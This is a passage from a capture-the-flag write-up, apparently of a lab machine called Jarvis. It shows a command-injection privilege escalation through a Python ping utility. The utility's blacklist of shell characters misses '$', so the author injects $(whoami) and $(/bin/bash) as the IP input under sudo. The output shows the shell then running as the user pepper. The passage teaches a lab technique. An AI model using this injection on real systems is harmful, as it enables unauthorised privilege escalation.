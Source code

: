```python
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

The `-p` option calls the `exec_ping()` command. This command takes in user provided input and checks if the following characters are part of the input: ‘&’, ‘;’, ‘-’, ‘||’, ‘|’. If it finds one of these characters, it prints out the message “Got you” and terminates the program. Otherwise, it executes the ping command on the user provided input.

One thing I noticed was that the `$ (dollar)` sign was allowed, so I could sue that to get a privilged shell.

```
www-data@jarvis:/var/www/Admin-Utilities$ ping $(whoami)ping: www-data: Temporary failure in name resolution
```

Whatever is in the parenthesis will be executed first and the output of it will be passed to the ping command. Therefore, as can be seen in the above output, it resolved the whoami command to `www-data` and then it tried to ping the output of the command.

So, to escalate my privileges to pepper, in the IP address field, I just ran the `$(/bin/bash)` command.

```
www-data@jarvis:/home/pepper$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p 
<o -u pepper /var/www/Admin-Utilities/simpler.py -p 
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/bin/bash)
$(/bin/bash)
pepper@jarvis:~$ whoami
whoami
pepper@jarvis:~$ cat /home/pepper/user.txt
cat /home/pepper/user.txt
pepper@jarvis:~$ ls
ls
```

Clearly there was something wrong once I was escalted to pepper, so instead of messing around with the system, I sent a new reverse shell to my machine.
